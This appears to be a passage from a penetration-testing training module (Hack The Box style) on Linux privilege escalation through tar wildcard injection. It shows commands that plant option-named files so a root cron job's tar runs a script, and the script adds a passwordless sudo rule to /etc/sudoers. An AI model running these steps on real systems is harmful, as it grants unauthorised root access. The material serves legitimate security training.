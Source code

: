An example of how wildcards can be abused for privilege escalation is the `tar` command, a common program for creating/extracting archives. If we look at the [man page](http://man7.org/linux/man-pages/man1/tar.1.html) for the `tar` command, we see the following:

```shell-session
htb_student@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command-line options. Let's see this in practice.

Consider the following cron job, which is set up to back up the `/root` directory's contents and create a compressed archive in `/tmp`. The cron job is set to run every minute, so it is a good candidate for privilege escalation.

```shell-session
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.

```shell-session
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

We can check and see that the necessary files were created.

```shell-session
htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```
